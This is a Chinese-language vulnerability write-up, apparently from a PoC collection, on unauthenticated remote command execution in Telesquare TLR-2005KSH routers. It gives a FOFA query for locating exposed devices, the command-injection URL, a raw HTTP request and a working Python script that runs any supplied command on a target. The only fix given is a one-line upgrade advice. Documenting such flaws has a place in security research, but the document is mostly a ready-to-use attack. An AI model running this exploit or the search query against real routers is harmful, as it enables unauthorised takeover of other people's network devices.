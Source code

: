 **漏洞名称**

Telesquare TLR-2005KSH路由器未经授权的远程命令执行漏洞



**漏洞影响**

TLR-2005Ksh 1.0.0版本和1.1.4版本

**漏洞描述**

Telesquare TLR-2005KSH是韩国Telesquare公司的一款路由器。Telesquare TLR-2005Ksh版本1.0.0和1.1.4存在未经授权的远程命令执行漏洞。攻击者可以利用此漏洞在未经cmd参数授权的情况下执行系统命令，并获取服务器权限。

**FOFA搜索语句**

```
title="Login to TLR-2005KSH"
```

**漏洞复现**

Payload

```
/cgi-bin/admin.cgi?Command=sysCommand&Cmd=ifconfig
```

get请求，直接使用浏览器访问，查看ifconfig

POC数据包如下



```yaml

GET /cgi-bin/admin.cgi?Command=sysCommand&Cmd=ifconfig HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept-Encoding: gzip
```

漏洞复现成功



```python

import sys
import requests
import xml.etree.ElementTree as ET


def get_systemutil_response(url, command, proxy):
    endpoint = f"/cgi-bin/admin.cgi?Command=sysCommand&Cmd={command}"
    full_url = url.rstrip('/') + endpoint
    headers = {
        'Referer': url,
    }
    try:
        response = requests.get(full_url, headers=headers, proxies=proxy)
        if response.status_code == 200:
            print("Response from", full_url)
            #print(response.text)
            root = ET.fromstring(response.text)
            for cmd_result in root.findall('CmdResult'):
                data = cmd_result.text.strip()
                print(data)
        else:
            print("Error: Failed to fetch data. Status code:", response.status_code)
    except requests.exceptions.RequestException as e:
        print("Error:", e)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python script.py <url> <command>")
        sys.exit(1)
    url = sys.argv[1]
    command = sys.argv[2]
    proxy = {
        'http': 'http://127.0.0.1:8080',
        'https': 'https://127.0.0.1:8080',
    }
    get_systemutil_response(url, command, proxy)
```



07

**修复建议**



升级到最新版本。